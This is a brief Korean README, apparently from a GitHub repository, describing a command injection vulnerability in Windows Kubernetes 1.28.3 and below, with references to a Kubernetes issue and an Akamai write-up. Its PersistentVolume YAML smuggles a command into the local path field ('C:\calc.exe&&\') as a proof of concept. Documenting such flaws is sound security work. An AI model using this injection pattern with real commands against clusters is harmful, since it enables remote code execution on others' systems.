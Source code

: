 # 개요
* 윈도우 쿠버네티스 1.28.3버전 이하에서 발생하는 원격 명령어 실행 취약점

# 취약점 소개

* path에 실행하고 싶은 윈도우 프로그램 경로를 설정

```yaml
apiVersion: v1
kind: PersistentVolume
metadata:
  name: example
spec:
  capacity:
    storage: 100M
  accessModes:
    - ReadWriteOnce
  persistentVolumeReclaimPolicy: Retain
  storageClassName: local-storage
  local:
    path: C:\calc.exe&&\
```

# 참고자료
* https://github.com/kubernetes/kubernetes/issues/121879
* https://www.akamai.com/ko/blog/security-research/kubernetes-local-volumes-command-injection-vulnerability-rce-system-privileges
